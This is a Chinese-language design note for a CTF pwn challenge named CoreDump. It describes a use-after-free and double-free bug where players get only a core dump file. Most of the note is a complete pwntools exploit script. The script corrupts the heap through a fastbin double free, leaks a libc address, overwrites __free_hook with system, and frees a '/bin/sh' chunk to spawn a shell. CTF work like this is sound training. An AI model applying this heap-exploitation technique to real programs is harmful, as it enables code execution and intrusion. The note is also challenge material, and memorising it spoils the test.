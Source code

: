 # 赛题设计说明

### 题目信息：

* 题目名称：CoreDump
* 预估难度：中等

### 题目描述：

Program received signal SIGABRT, Aborted. (core dumped)

### 题目考点

1. UAF
2. core dump文件 使用gdb dump内存信息


### 思路简述

程序存在uaf漏洞,可以实现double free.

比赛时提供给选手的只有因为double free造成的coredump文件,需要从该文件中提取程序信息做题.


### EXP

```python
from pwn import *
context.log_level = 'DEBUG'

sh = process('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add(content,ids):
    sh.sendline('1')
    sh.recvuntil('added item?\n')
    sh.sendline(content)
    sh.recvuntil('of items?')
    sh.sendline(str(ids))
    sh.recvuntil("choice:\n")
def delete(idx):
    sh.sendline('2')
    sh.recvuntil('deleted item?')
    sh.sendline(str(idx))
    sh.recvuntil("choice:\n")
    
def show():
    sh.sendline('3')
    sh.recvuntil('num:49.\n')
    sh.recvuntil('name:')
    data = sh.recvuntil(',',drop=True)
    sh.recvuntil("choice:\n")
    return data
def edit(idx,content):
    sh.sendline('4')
    sh.recvuntil('index of the edit item?\n')
    sh.sendline(str(idx))
    sh.recvuntil('name of the edit item?\n')
    sh.sendline(content)
    sh.recvuntil("choice:\n")

add('111',0x31) #0

add('333',1) #1
add('/bin/sh\x00',2) #2
add('222',0) #3

add('555',0)
delete(3)
delete(1)
delete(3)
add(p64(0x6020c0),0) #3
add('1',0) #3
add('1',0) #3
add(p64(0x6020c0),4) #3 6020d0
edit(3,p64(0x602020)) 
libc_base = u64(show().ljust(8,'\x00')) - libc.symbols['puts']
log.success('libc_base = ' + hex(libc_base))
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
edit(3,p64(free_hook)) 
edit(1,p64(system))
delete(2)
sh.interactive()
```